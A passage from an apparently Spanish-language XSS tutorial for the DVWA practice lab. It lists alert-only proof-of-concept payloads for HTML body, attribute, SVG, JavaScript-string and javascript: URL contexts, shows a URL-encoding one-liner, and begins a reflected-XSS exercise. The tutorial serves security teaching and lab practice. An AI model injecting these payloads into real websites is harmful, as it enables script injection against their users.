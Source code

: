 > 💡 Reemplaza `<TU_SESION>` por tu cookie real tras iniciar sesión en DVWA.

---

## 3) Payloads mínimos por contexto (cheat‑sheet de arranque)

> Estos son **pocs** para probar rápidamente. El contexto real determina cuál funcionará.

* **HTML (body)**:

  ```html
  <script>alert(1)</script>
  ```
  
* **HTML/atributo** (romper atributo y abrir handler):

  ```html
  " autofocus onfocus=alert(1) x="
  ```
  
* **HTML/etiqueta SVG** (a menudo menos filtrada):

  ```html
  <svg/onload=alert(1)>
  ```
* **Contexto JS** (cerrar cadena y ejecutar):

  ```js
  ');alert(1);//
  ```
  
* **URL javascript:** (si el enlace imprime sin validar):

  ```
  javascript:alert(1)
  ```

**URL‑encoding** rápido del payload (útil para `curl`):

```bash
python3 - <<'PY'
import urllib.parse; print(urllib.parse.quote('<script>alert(1)</script>'))
PY
```

---

## 4) Reflected XSS (Low)

### Objetivo en DVWA

`/vulnerabilities/xss_r/`

1. Abre la página y usa el **formulario**. Introduce:

   ```html
   <script>alert('xss-reflected')</script>
   ```

